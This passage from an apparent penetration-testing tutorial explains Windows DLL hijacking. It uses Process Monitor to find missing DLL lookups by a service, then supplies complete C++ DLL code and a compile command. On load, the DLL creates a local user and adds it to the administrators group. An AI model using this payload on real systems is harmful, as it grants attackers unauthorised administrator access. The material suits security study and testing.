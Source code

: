We can use Process Monitor (Procmon) to capture and filter events related to the target service:

{{< hint style=notes >}}
**Note**: Using Process Monitor requires administrative privileges, so you’ll need to copy the service binary to a local machine.
{{< /hint >}}

* Launch **Process Monitor**.
* **Add a filter** to show only events related to the service's process name.
* **Restart the service** while Procmon is actively capturing:

    ```powershell
    Restart-Service <service>
    ```

* **Look for CreateFile events** where the service attempts to access a <name>.dll file across different directories.

In the Detail column of these events, if you see `NAME NOT FOUND`, it means the system attempted to locate the DLL in that path, but it wasn’t there. This indicates a potential opportunity to hijack the DLL.

To exploit this:
* Identify the first directory in the search order where the service attempts to load the missing DLL.
* If you have write permissions to that location, **place a malicious DLL with the same name**.

{{< details summary="Example of Cpp DLL" >}}
```Cpp
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved )
{
  switch ( ul_reason_for_call )
  {
    case DLL_PROCESS_ATTACH:
    int i;
    i = system ("net user test yourpass /add");
    i = system ("net localgroup administrators test /add");
    break;
    case DLL_THREAD_ATTACH:
    break;
    case DLL_THREAD_DETACH:
    break;
    case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```

Compile the code:
```bash
gcc DLL_NAME.cpp --shared -o <DLL_NAME>.dll
```
